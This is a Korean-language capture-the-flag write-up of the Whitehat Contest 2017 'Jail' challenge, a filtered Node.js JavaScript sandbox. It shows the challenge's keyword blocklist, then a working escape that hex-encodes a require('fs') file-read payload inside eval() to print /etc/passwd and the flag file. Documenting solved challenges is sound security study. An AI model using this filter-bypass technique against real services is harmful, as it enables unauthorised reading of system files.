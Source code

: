 # Whitehat Contest 2017 - [misc] Jail

### Description

> nc challenges.whitehatcontest.kr 5959

<br>

### Analysis

바로 nc로 붙어보니 `hint, quit` 문구가 보인다.

```
$ nc challenges.whitehatcontest.kr 5959
Hello Java-Script Jail
type: hint, quit
> 
```

<br>

hint를 입력해보니 다음과 같이 RegExp 정규 표현식 안에 문자열이 쭈르륵 나열되었다. 음?

```
> hint
(input) => (new RegExp(/with|\.|;|new| |'|child|crypto|os|http|dns|net|tr|tty|zlib|punycode|util|url|ad|nc|>|`|\+|ex|=/i).test(input))
```

<br>

아무 문자열이나 입력해보았다.

리스트에 포함되지 않는 문자는 hm..이라는 응답이 오고

포함되는 문자는 nop 응답이 돌아오는 것으로 보아 필터링인 것을 알 수 있었다.

```
$ nc challenges.whitehatcontest.kr 5959
Hello Java-Script Jail
type: hint, quit
> test
hm..

$ nc challenges.whitehatcontest.kr 5959
Hello Java-Script Jail
type: hint, quit
> os
nop
```

<br>

그러나 많은 필터링 리스트에 eval() 함수가 빠져있다.

eval() 함수 + 인코딩으로 필터링 우회가 가능할 것 같다.

<br>

### Exploit

[node.js][node.js] API 문서를 참고해보니 readFileSync() 함수를 사용하여 js 파일 시스템에 접근이 가능했다.

파일 시스템 접근을 위해 'fs' 모듈을 임포트 해줘야 하므로 with 함수와 require를 함께 사용했다.

> query:  with(require('fs')){readFileSync('/etc/passwd')}
>
> encoded:  \x77\x69\x74\x68\x28\x72\x65\x71\x75\x69\x72\x65\x28\x27\x66\x73\x27\x29\x29\x7b\x72\x65\x61\x64\x46\x69\x6c\x65\x53\x79\x6e\x63\x28\x27\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64\x27\x29\x7d

```
$ nc challenges.whitehatcontest.kr 5959
Hello Java-Script Jail
type: hint, quit
> eval("\x77\x69\x74\x68\x28\x72\x65\x71\x75\x69\x72\x65\x28\x27\x66\x73\x27\x29\x29\x7b\x72\x65\x61\x64\x46\x69\x6c\x65\x53\x79\x6e\x63\x28\x27\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64\x27\x29\x7d")
your input root:x:0:0:root:/root:/bin/ash
.
.
.
guest:x:405:100:guest:/dev/null:/sbin/nologin
nobody:x:65534:65534:nobody:/:/sbin/nologin
node:x:1000:1000:Linux User,,,:/home/node:/bin/sh
jail:x:1001:1001:Linux User,,,:/home/jail:
```

<br>

눈에 익은 계정이 하나 보인다. 

계정 디렉터리 아래 플래그가 있는지 확인해보았다.

```
$ nc challenges.whitehatcontest.kr 5959
Hello Java-Script Jail
type: hint, quit
> eval("\x77\x69\x74\x68\x28\x72\x65\x71\x75\x69\x72\x65\x28\x27\x66\x73\x27\x29\x29\x7b\x72\x65\x61\x64\x46\x69\x6c\x65\x53\x79\x6e\x63\x28\x27\x2f\x68\x6f\x6d\x65\x2f\x6a\x61\x69\x6c\x2f\x66\x6c\x61\x67\x27\x29\x7d")
your input flag is {easy~esay!easy?_Jav4-scr1pt~yay}
```

flag is

***easy~esay!easy?_Jav4-scr1pt~yay***



[node.js]: https://nodejs.org/api/fs.html